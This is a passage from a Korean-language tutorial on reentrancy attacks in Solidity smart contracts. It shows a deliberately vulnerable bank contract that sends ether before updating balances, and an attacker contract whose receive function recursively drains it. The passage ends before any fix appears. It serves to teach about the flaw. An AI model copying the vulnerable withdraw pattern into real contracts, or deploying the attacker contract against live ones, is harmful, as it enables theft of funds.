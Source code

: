 
## 🔄 **재진입 공격이란?**

재진입 공격은 스마트 컨트랙트가 **외부 컨트랙트를 호출하는 동안**, 해당 외부 컨트랙트가 **원래 함수를 다시 호출**하여 예상치 못한 동작을 유발하는 공격입니다.

## ⚠️ **공격 메커니즘**

### **취약한 코드 예시:**

```solidity
contract VulnerableBank {
    mapping(address => uint256) public balances;
    
    function deposit() public payable {
        balances[msg.sender] += msg.value;
    }
    
    function withdraw(uint256 amount) public {
        require(balances[msg.sender] >= amount, "잔액 부족");
        
        // ❌ 위험: 상태 업데이트 전에 외부 호출
        (bool success, ) = msg.sender.call{value: amount}("");
        require(success, "전송 실패");
        
        // 상태 업데이트가 너무 늦음
        balances[msg.sender] -= amount;
    }
}
```

### **공격자 컨트랙트:**

```solidity
contract Attacker {
    VulnerableBank public bank;
    uint256 public constant ATTACK_AMOUNT = 1 ether;
    
    constructor(address _bankAddress) {
        bank = VulnerableBank(_bankAddress);
    }
    
    function attack() public payable {
        // 1. 최소한의 예금
        bank.deposit{value: ATTACK_AMOUNT}();
        
        // 2. 출금 시작 (재진입 트리거)
        bank.withdraw(ATTACK_AMOUNT);
    }
    
    // 3. fallback 함수에서 재진입 발생
    receive() external payable {
        if (address(bank).balance >= ATTACK_AMOUNT) {
            bank.withdraw(ATTACK_AMOUNT); // 🔄 재귀 호출!
        }
    }
}
```
